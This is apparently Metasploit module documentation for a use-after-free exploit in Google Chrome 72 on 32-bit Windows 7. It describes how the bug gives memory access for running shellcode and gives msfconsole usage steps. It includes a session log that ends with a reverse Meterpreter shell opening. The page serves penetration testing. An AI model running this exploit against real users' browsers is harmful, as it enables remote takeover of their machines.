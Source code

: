 ## Description

The FileReader.readAsArrayBuffer function can return multiple references to the same ArrayBuffer object, which can be freed and overwritten with sprayed objects.  The dangling ArrayBuffer reference can be used to access the sprayed objects, allowing arbitrary memory access from Javascript. This is used to write and execute shellcode in a WebAssembly object.

The shellcode is executed within the Chrome sandbox, so you must explicitly disable the sandbox for the payload to be successful, e.g:

`C:\Program Files\Google\Chrome\Application>chrome.exe --no-sandbox`

## Vulnerable Application

This exploit takes advantage of a use after free vulnerability in Google Chrome 72.0.3626.119 running on Windows 7 x86.
Additional memory protections mean this exploit technique is not as straightforward on x64 versions of Windows.

## Verification Steps

1. Start msfconsole
1. Do: ```use exploit/windows/browser/chrome_filereader_uaf```
1. Do: ```Choose a payload and set any specific options```
1. Do: ```run```, after a target browses to the generated URL, you should receive a session.

## Scenarios

### Windows 7 x86 with Google Chrome 72.0.3626.119 (--no-sandbox)


```
msf5 > use exploit/windows/browser/chrome_filereader_uaf
msf5 exploit(windows/browser/chrome_filereader_uaf) > set URIPATH /
URIPATH => /
msf5 exploit(windows/browser/chrome_filereader_uaf) > set LHOST 192.168.0.1
LHOST => 192.168.0.1
msf5 exploit(windows/browser/chrome_filereader_uaf) > run
[*] Started reverse TCP handler on 192.168.0.1:4444
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://192.168.0.1:8080/
[*] Server started.
[*] 192.168.0.1   chrome_filereader_uaf - Sending /
[*] 192.168.0.1   chrome_filereader_uaf - Sending /favicon.ico
[*] 192.168.0.1   chrome_filereader_uaf - Sending /exploit.html
[*] 192.168.0.1   chrome_filereader_uaf - Sending /worker.js
[*] Sending stage (179779 bytes) to 192.168.0.1
[*] Meterpreter session 1 opened (192.168.0.1:4444 -> 192.168.0.1:60876) at 2019-05-06 16:49:06 +0800
```

